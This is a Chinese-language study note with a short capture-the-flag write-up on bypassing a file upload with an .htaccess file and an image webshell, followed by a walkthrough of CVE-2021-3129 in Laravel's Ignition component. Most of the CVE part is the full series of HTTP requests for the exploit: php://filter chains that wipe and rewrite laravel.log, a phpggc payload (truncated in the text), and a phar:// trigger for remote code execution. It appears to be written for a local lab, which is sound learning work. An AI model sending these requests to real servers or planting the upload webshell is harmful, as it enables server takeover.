

# 2024-2-14

## 1

首先打开网址能看出来是文件上传类漏洞

随便上传个图片发现上传成功，所以我们可以上传图片来进行攻击

我们上传一个htaccess文件，来使php文件能够被执行

然后上传我们的图片马，并修改文件类型即可

最后使用蚁剑链接获得flag

## CVE-2021-3129

该漏洞是Laravel开发框架的一个漏洞，该开发框架是基于PHP实现的，但当Laravel开启了Debug模式时，由于Laravel自带的Ignition 组件对file_get_contents()和file_put_contents()函数的不安全使用，攻击者可以通过发起恶意请求，构造恶意Log文件等方式触发Phar反序列化，最终造成远程代码执行。

**漏洞范围**

- Laravel < 8.4.3
- facade ignition < 2.5.2

git clone https://github.com/SNCKER/CVE-2021-3129下载靶场

(2)使用docker-compose搭建环境

使用 phpggc工具生成一条laravel中存在的反序列化利用POC

(2)发送如下数据包，将Laravel的原日志文件laravel.log清空：

POST /_ignition/execute-solution HTTP/1.1
Host: X.X.X.X:8888
Content-Type: application/json
Content-Length: 328

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "username",
    "viewFile": "php://filter/write=convert.iconv.utf-8.utf-16be|convert.quoted-printable-encode|convert.iconv.utf-16be.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"
  }
}

(3)发送如下数据包，给Log增加一次前缀，用于对齐：

POST /_ignition/execute-solution HTTP/1.1
Host: X.X.X.X:8888
Content-Type: application/json
Content-Length: 163

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "username",
    "viewFile": "AA"
  }
}

(4)将之前生成的编码后的POC作为viewFile的值，发送数据包：

POST /_ignition/execute-solution HTTP/1.1
Host: X.X.X.X:8888
Content-Type: application/json
Content-Length: 5058

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "username",
    "viewFile": "=50=00=44=00=39=00=77=00=61=00=48=00=41=00=67=00=58=00=31=00=39=00=49=00=51=00=55=00=78=00=55=00=58=00=30=00=4E=00=50=00=54=00=56=00=42=00=4A=00=54=00=45=00=......2B=00=57=00=61=00=63=00=4E=00=67=00=49=00=41=00=41=00=41=00=42=00=48=00=51=00=6B=00=31=00=43=00a"
  }
}

(5)发送如下数据包，清空对log文件中的干扰字符，只留下POC：

POST /_ignition/execute-solution HTTP/1.1
Host: X.X.X.X:8888
Content-Type: application/json
Content-Length: 299

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "username",
    "viewFile": "php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"
  }
}

(6) 使用phar://进行反序列化，执行任意代码：

POST /_ignition/execute-solution HTTP/1.1
Host: X.X.X.X:8888
Content-Type: application/json
Content-Length: 210

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "username",
    "viewFile": "phar:///var/www/storage/logs/laravel.log/test.txt"
  }
}

看到phpinfo漏洞利用成功